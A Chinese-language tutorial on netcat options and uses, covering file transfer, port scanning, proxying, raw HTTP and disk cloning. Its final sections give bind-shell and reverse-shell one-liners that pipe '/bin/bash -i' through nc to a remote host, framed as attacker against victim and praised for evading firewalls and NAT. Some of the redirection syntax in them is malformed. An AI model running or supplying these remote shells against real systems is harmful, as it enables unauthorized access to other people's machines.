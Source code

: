 # Linux NetCat

参考：

https://program-think.blogspot.com/2019/09/Netcat-Tricks.html

> 不同的netcat版本参数不同

## 概述

nc (Netcat)，是一款网络工具

 Common uses include:

   ·   simple TCP proxies
   ·   shell-script based HTTP clients and servers
   ·   network daemon testing
   ·   a SOCKS or HTTP ProxyCommand for ssh(1)
   ·   and much, much more

pattern：`nc [option] destination port`

可以用空格分开多个端口，或是使用短横号

## 参数

- `-l`

  指定netcat是监听传入的连接，而不是发起与远程主机的连接。如果没有指定端口，默认随机开启一个端口

- `-n`

  不对域名做DNS解析

- `-p`

  指定netcat本地使用的端口

- `-s`

  如果有多IP，指定发送数据的IP

- `-v`

  输出详细内容

- `-u`

  使用udp协议，默认使用tcp

- `-w`

  指定多少空闲时间之后端口连接

- `-X proxy_protocal`

  指定代理服务器使用的协议，默认使用SOCKS5

  5代表SOCKS5，4代表SOCKS4，connect代表HTTPS

- `-x proxy_address:[port]`

  指定代理使用的地址

- `-z`

  一般用于端口扫描，不进行传输层连接

- `-k`

  监听多个连接

- `-e`

  有些版本没有`-e`参数，==但是任然可以通过管道符来执行命令，因为nc使用输入流==

  ```
  #server side
  root in /tmp λ ll  | nc -l 10086
  
  #client side
  root in /opt/test λ nc 8.135.0.171 10086
  .rw-r--r-- root root 766 B  Thu Jan  7 20:54:22 2021 1
  .rw-r--r-- root root   3 B  Thu Jan  7 15:19:02 2021 CmsGoAgent.pid
  |rw-r--r-- root root   0 B  Thu Jan  7 20:48:05 2021 pipe2
  drwx------ root root   4 KB Thu Jan  7 15:58:03 2021 systemd-private-15d3cb8fbace4e55b6e68bdfecdc488e-apache2.service-4X20kz
  drwx------ root root   4 KB Thu Jan  7 15:19:02 2021 systemd-private-15d3cb8fbace4e55b6e68bdfecdc488e-chrony.service-OueTdJ
  drwx------ root root   4 KB Thu Jan  7 15:18:59 2021 systemd-private-15d3cb8fbace4e55b6e68bdfecdc488e-systemd-resolved.service-D22I1S
  ```

## example

1. 建立两台主机的连接，nc不关心那一台是服务器还是客服端。两端都会显示内容

   ```
   host1
   root in ~ λ nc -l 10086
   
   echo a
   echo b
   cd /etc	
   pwd
   echo $SHELL
   
   host2
   root in /etc λ nc 8.135.0.171 10086
   
   echo a
   echo b
   cd /etc	
   pwd
   echo $SHELL  
   ```

2. 通过nc传输内容，传输完成后会自动关闭连接。==不经过应用层==

   ```
   #server side
   root in /opt λ nc -l 10086 >  test.txt #nc将接受到内容写入文件
   
   
   #client side
   root in /etc λ nc 8.135.0.171 10086 < ~/.ssh/id_rsa.pub 
   ```

3. 测试端口是否开放

   ```
   root in /etc λ nc -nvz 8.135.0.171 443 80
   (UNKNOWN) [8.135.0.171] 443 (https) open
   (UNKNOWN) [8.135.0.171] 80 (http) open     
   
   ```

4. 使用代理服务器

   通过`socks5://10.2.3.4:8080`访问host.example.com的42端口

   ```
   nc -x 10.2.3.4:8080 -X connect host.example.com 42
   ```

5. 使用netcat访问网站，这样会发送一条请求指定IP的端口

   ==这样不会暴露浏览器信息，这里必须要有line feed和carriage return==

   ```
   root in /etc λ echo -e "GET / HTTP/1.0\r\n" | nc -v -w 3 39.156.69.79 80 
   39.156.69.79: inverse host lookup failed: Unknown host
   (UNKNOWN) [39.156.69.79] 80 (http) open
   HTTP/1.1 200 OK
   Date: Thu, 07 Jan 2021 11:23:17 GMT
   Server: Apache
   Last-Modified: Tue, 12 Jan 2010 13:48:00 GMT
   ETag: "51-47cf7e6ee8400"
   Accept-Ranges: bytes
   Content-Length: 81
   Cache-Control: max-age=86400
   Expires: Fri, 08 Jan 2021 11:23:17 GMT
   Connection: Close
   Content-Type: text/html
   
   <html>
   <meta http-equiv="refresh" content="0;url=http://www.baidu.com/">
   ```

   ```
   C:\Users\82341>echo -e "GET / HTTP1.0\r\n" | ncat  baid.com 80
   HTTP/1.1 400 Bad Request
   Server: nginx/1.10.3 (Ubuntu)
   Date: Sat, 06 Feb 2021 08:22:47 GMT
   Content-Type: text/html
   Content-Length: 182
   Connection: close
   
   <html>
   <head><title>400 Bad Request</title></head>
   <body bgcolor="white">
   <center><h1>400 Bad Request</h1></center>
   <hr><center>nginx/1.10.3 (Ubuntu)</center>
   </body>
   </html>
   ```

   

6. 使用nc备份整个磁盘

   ```
   recv  接收端
   nc -l -p xxx | dd of=/dev/sdb
   
   send 发送端
   dd if=/dev/sda | nc x.x.x.x xxx 
   ```

7. 远程使用命令

   使用这种方式会在服务端显示交互的shell，不具备隐蔽性

   ```
   #server side
   root in /tmp λ nc -l 10086 | /bin/bash -i 2&>1
   123
   
   #client side
   root in /usr/local/\ λ nc 8.135.0.171 10086
   echo 123
   ```

## 被动连接

==远程执行命令==，所有服务端的内容将在客户端显示。这种方式能被防火墙拦截

```
server side 服务端
root in /tmp λ mkfifo /tmp/pipe2
root in /tmp λ cat /tmp/pipe2 | /bin/bash -i 2&>1  | nc -l 10086 > /tmp/pipe2 
#第一次执行空内容这里表示nc server 接受nc client 输入的内容写入到具名管道符pipe2，然后从pipe2中读取内容执行


client side 客户端
root in /opt/test λ nc 8.135.0.171 10086
```

## 主动连接

与被动连接类似，唯一的差别在于把客户端与服务端对调。也就是所攻击者的nc充当服务器，受害者的nc充当客户端。受害者的nc无需开启监听端口，==所以不受防火墙和NAT的影响==

```
#client side
nc -lk -p xxx

#server side
/bin/bash -i 2 &> 1 | nc x.x.x.x xxx
```

## 被动连接VS主动连接

**被动连接**

由于绝大数PC都处于内网（未分配公网IP）。攻击者需要与受害者在同一局域网，才能建立通信。服务端需要显示开启监听端口，很容易引起用户怀疑。

**主动连接**

主动连接，没有这种种弊端